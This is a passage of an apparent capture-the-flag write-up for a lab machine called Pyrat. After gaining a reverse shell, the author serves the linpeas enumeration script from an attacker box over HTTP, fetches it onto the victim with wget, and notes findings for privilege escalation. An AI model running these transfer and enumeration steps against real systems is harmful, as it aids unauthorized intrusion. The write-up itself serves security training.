 We've established a stable reverse shell and gained an initial foothold on the machine! However, we're currently just a low-privilege user, so we need to keep searching for another low-hanging fruit.

After spending some time searching manually, I decided to run linpeas. First, we transfer it to the victim machine.

```bash title="Attacker"
┌──(root㉿kali)-[~]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
--2024-11-12 19:53:11--  https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
...
HTTP request sent, awaiting response... 200 OK
Length: 827739 (808K) [application/octet-stream]
Saving to: ‘linpeas.sh’

linpeas.sh                       100%[=======================================================>] 808.34K  --.-KB/s    in 0.008s  

2024-11-12 19:53:11 (101 MB/s) - ‘linpeas.sh’ saved [827739/827739]

                                                                                                                                 
┌──(root㉿kali)-[~]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.43.86 - - [12/Nov/2024 19:53:52] "GET /linpeas.sh HTTP/1.1" 200 -
```

```bash title="Victim"
www-data@Pyrat:~$ cd /tmp
cd /tmp
www-data@Pyrat:/tmp$ wget http://10.10.143.15:8000/linpeas.sh
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 808.34K  --.-KB/s    in 0.004s  

2024-11-12 19:53:52 (214 MB/s) - ‘linpeas.sh’ saved [827739/827739]

www-data@Pyrat:/tmp$ chmod u+x linpeas.sh
chmod u+x linpeas.sh

```
While reviewing the results from linpeas, we notice a user named `think`.

![alt text](../assets/img/posts/2024-11-13-thm-writeup-pyrat/image-2.png)

But also a Git directory under /opt/dev catches my attention:

![alt text](../assets/img/posts/2024-11-13-thm-writeup-pyrat/image-3.png)

